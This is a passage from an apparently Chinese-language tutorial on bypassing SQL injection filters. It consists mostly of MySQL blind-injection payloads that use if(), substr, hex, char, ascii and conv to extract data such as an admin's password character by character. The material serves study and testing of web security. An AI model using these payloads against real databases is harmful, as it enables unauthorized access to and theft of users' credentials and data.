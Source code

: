 '-1#

```
select data from users where 0 = -1 # false

```

使用条件判断来进行`true、false`的选择

```
    ifnull(nullif()), case when， if()
    '-if(name='Admin',1,0)#

```

使用嵌套条件`'-if(`

```
if(name='Admin',1,0), // condition
if(substr(pass,1,1)='a',1,0) // if true
,0)# // if false    

```

0x03 函数过滤
=========

* * *

构建字符串相关函数

```
unhex char hex ascii ord substr substring mid pad left right insert
' and substr(data,1,1) = 'a'#
' and substr(data,1,1) = 0x61# 0x6162
' and substr(data,1,1) = unhex(61)# unhex(6162)
' and substr(data,1,1) = char(97)# char(97,98)
' and hex(substr(data,1,1)) = 61#
' and ascii(substr(data,1,1)) = 97#
' and ord(substr(data,1,1)) = 97#

```

使用conv来进行进制的转换

```
' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
' and substr(data,1,1) = lower(conv(11,10,36))# 'b'
' and substr(data,1,1) = lower(conv(36,10,36))# 'z'

```

使用函数来猜解数据

```
' and substr(data,1,1) = 'a'#
' and substring(data,1,1) = 'a'#
' and mid(data,1,1) = 'a'#

```
